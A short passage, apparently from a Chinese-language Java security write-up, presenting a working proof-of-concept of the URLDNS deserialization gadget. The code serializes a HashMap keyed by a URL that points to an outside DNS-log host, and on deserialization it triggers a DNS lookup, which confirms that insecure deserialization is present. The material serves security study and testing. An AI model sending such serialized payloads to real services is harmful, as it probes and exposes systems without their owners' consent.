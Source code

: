 构造 POC 如下：
```java
package com.serialize;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

/**
 * Created by dotast on 2022/9/18 22:43
 */
public class URLDNS {
    public static void main(String[] args) throws Exception{
        URLDNS urldns = new URLDNS();
        urldns.serialize();
        urldns.unserialize();
    }

    public void serialize() throws Exception {
        HashMap map = new HashMap<>();
        URL url = new URL("http://c62a1767.dns.1433.eu.org");
        Class cls = Class.forName("java.net.URL");
        Field hashCode = cls.getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        map.put(url, "dotast");
        hashCode.set(url, -1);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(map);
    }

    public void unserialize() throws Exception{
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }

}
```

成功发送了 DNS 请求